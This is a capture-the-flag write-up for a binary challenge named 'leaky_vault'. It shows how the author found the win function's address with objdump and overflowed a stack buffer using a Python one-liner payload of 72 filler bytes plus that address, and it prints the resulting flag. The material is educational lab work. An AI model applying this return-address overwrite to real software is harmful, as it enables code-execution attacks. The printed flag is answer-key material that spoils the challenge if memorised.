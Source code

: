 # Leak-Vault Writeup

This binary challenge requires executing the win function by leveraging a buffer overflow vulnerability and using the function's address.
Steps to Solve
1. Identify the win Function Address

To locate the address of the win function, I used objdump to disassemble the binary and searched for the win function:
bash
Copy

```
┌──(myenv)─(zwique㉿kali)-[~/Downloads]
└─$ objdump -d leaky_vault | grep win
000000000040084c <win>:
  400874:       540000c1        b.ne    40088c <win+0x40>  // b.any
```
## The address of the win function is 0x40084c.
2. Exploit the Buffer Overflow

The binary appears to have a buffer overflow vulnerability. By providing an input longer than the buffer size, we can overwrite the return address on the stack with the address of the win function.

I crafted a payload consisting of:

    72 bytes of filler (to fill the buffer and overwrite the saved return address).

    The address of the win function (0x40084c) in little-endian format.

The payload was generated using Python

```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 -c 'print("A" * 72 + "\x4c\x08\x40\x00\x00\x00\x00\x00")' | ./leaky_vault
```

3. Execute the Exploit

When the payload is passed to the binary, it successfully overwrites the return address and executes the win function:
Copy

Enter your input: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}

#### The flag is: uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}.

Alternative: Using an Exploit Script
```
┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 exp.py
```

Conclusion

This challenge demonstrates a classic buffer overflow exploit, where overwriting the return address with the address of a desired function (win) leads to successful execution. Understanding memory layout and function addresses is key to solving such problems.
